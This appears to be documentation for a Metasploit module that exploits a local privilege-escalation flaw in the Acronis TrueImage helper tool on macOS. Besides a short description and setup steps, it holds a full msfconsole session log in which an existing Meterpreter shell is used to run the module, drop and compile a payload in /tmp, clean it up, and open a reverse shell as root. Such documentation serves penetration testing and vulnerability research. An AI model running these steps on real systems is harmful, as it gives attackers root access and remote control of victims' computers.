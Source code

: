 ## Vulnerable Application

Acronis TrueImage versions 2019 update 1 through 2021 update 1
are vulnerable to privilege escalation. The `com.acronis.trueimagehelper`
helper tool does not perform any validation on connecting clients,
which gives arbitrary clients the ability to execute functions provided
by the helper tool with `root` privileges.

This module connects to the helper tool and executes the payload via
the helper tool's `executeProcess:arguments:caller:withReply:;` function,
granting a session as `root`.

### Installation Instructions

Run through the installer with all of the defaults. Once the application
is installed, open the application and allow the privileges requested.
That should be enough for the helper tool to be placed in the
`/Library/PrivilegedHelperTools` directory. You should not have to set up
a trial to get the exploit to work.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a meterpreter or shell session on the target
4. Do: `use exploit/osx/local/acronis_trueimage_xpc_privesc`
5. Do: `set SESSION <session_no>`
6. Do: `run`
7. You should get a new session as root.

## Options

### WRITABLE_DIR

Directory to use to write exploit files to

## Scenarios

### Acronis TrueImage Build 22510 on macOS 12.5

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.204:53610) at 2022-11-15 08:44:36 -0600

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/osx/local/acronis_trueimage_xpc_privesc
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set session 1
session => 1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lport 5555
lport => 5555
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set verbose true
verbose => true
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > run

[*] Started reverse TCP handler on 192.168.140.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable build 22510 found
[*] Attempting to write payload at /tmp/FHQUXzNR
[*] Writing '/tmp/FHQUXzNR' (17204 bytes) ...
[+] Successfully wrote payload at /tmp/FHQUXzNR
[*] Successfully compiled iZMwhN.m...Now executing payload
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[+] Deleted /tmp/FHQUXzNR
[+] Deleted /tmp/iZMwhN.m
[+] Deleted /tmp/iZMwhN
[*] Meterpreter session 2 opened (192.168.140.1:5555 -> 192.168.140.204:53763) at 2022-11-15 08:45:13 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```
